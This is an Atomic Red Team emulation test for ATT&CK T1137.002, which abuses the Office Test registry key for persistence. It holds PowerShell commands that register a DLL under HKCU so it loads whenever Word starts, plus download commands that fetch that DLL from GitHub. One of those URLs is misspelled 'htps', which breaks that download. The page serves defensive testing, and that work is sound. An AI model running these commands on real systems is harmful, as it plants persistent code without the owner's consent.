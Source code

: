 # T1137.002 - Office Application Startup: Office Test
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/002)
<blockquote>Adversaries may abuse the Microsoft Office "Office Test" Registry key to obtain persistence on a compromised system. An Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office application is started. This Registry key is thought to be used by Microsoft to load DLLs for testing and debugging purposes while developing Office applications. This Registry key is not created by default during an Office installation.(Citation: Hexacorn Office Test)(Citation: Palo Alto Office Test Sofacy)

There exist user and global Registry keys for the Office Test feature:

* <code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Office test\Special\Perf</code>

Adversaries may add this Registry key and specify a malicious DLL that will be executed whenever an Office application, such as Word or Excel, is started.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office Application Startup Test Persistence (HKCU)](#atomic-test-1---office-application-startup-test-persistence-hkcu)


<br/>

## Atomic Test #1 - Office Application Startup Test Persistence (HKCU)
Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office
application is started. Key is used for debugging purposes. Not created by default & exist in HKCU & HKLM hives.

**Supported Platforms:** Windows


**auto_generated_guid:** c3e35b58-fe1c-480b-b540-7600fb612563






#### Attack Commands: Run with `powershell`! 


```powershell
$wdApp = New-Object -COMObject "Word.Application"
if(-not $wdApp.path.contains("Program Files (x86)"))  
{
  Write-Host "64-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll" /f       
}
else{
  Write-Host "32-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll" /f
}
Stop-Process -Name "WinWord" 
Start-Process "WinWord"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","WinWord" -ErrorAction Ignore
Remove-Item "HKCU:\Software\Microsoft\Office test\Special\Perf" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```
##### Description: DLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll") -and (Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.002\bin\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x64.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll"
Invoke-Webrequest -Uri "htps://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x86.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll"
```




<br/>
